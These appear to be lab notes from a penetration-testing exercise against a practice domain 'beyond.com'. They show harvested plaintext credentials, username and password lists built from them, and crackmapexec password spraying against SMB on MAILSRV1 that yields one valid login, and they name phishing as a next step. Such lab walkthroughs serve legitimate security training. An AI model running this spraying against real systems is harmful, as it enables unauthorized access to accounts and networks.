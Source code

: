 - Validate domain credentials from a non-domain-joined machine
- Perform phishing to get access to the internal network

### Domain Credentials 
Reviewing creds.txt 
```
kali@kali:~/beyond$ cat creds.txt                  
daniela:tequieromucho (SSH private key passphrase)
wordpress:DanielKeyboard3311 (WordPress database connection settings)
john:dqsTwTpZPn#nL (fetch_current.sh)

Other identified users:
marcus
```

Create list of usernames and passwords
```
kali@kali:~/beyond$ cat usernames.txt                                         
marcus
john
daniela

kali@kali:~/beyond$ cat passwords.txt
tequieromucho
DanielKeyboard3311
dqsTwTpZPn#nL
```

Use #crackmapexec and check these creds against SMB on MAILSRV1

```hlt:1,8
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
```
- Valid credentials for john
- Identified domain name as `beyond.com` and MAILSRV1 is a domain-joined machine
